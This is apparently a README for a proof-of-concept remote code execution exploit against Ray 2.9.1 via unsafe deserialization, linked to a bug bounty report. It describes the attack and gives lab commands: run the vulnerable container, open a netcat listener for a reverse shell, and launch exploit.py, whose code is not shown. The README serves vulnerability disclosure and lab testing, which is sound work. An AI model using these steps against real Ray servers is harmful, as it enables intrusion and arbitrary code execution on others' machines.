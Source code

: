 # Ray 2.9.1 Deserialization Demo - CWE-502
Report: https://huntr.com/bounties/ce6cb61c-fce1-406f-80e2-f3b7cdddbd6f
Resources:
   - https://docs.ray.io/en/latest/ray-overview/installation.html
   - https://github.com/ray-project/ray


## Overview
### Description
This is an RCE exploit for Ray 2.9.1. The exploit is a deserialization attack that allows an attacker to execute arbitrary code on the target machine. The attack is performed by sending a malicious serialized object to the Ray service. The service deserializes the object and executes the code contained within it.

### Rating
The vulnerability has been rated as `Critical` with a CVSS score of `9.8`. This is because the vulnerability is remotely exploitable and allows an attacker to execute arbitrary code on the target machine.


## Commands
### Terminal 1 - Start the Service
```bash
docker pull rayproject/ray:2.9.1
docker run -it -p 10001:10001 -p 10002:10002 -p 10003:10003 -p 10004:10004 --shm-size=4.43gb rayproject/ray:2.9.1
```

From the container run:
```bash
ray start --head
```

### Terminal 2 - `netcat` Listener
```bash
nc -lvp 4321
```

### Terminal 3 - Attack
```bash
python -m venv .venv-3.8
source .venv/bin/activate
pip install -r requirements.txt
python exploit.py
```
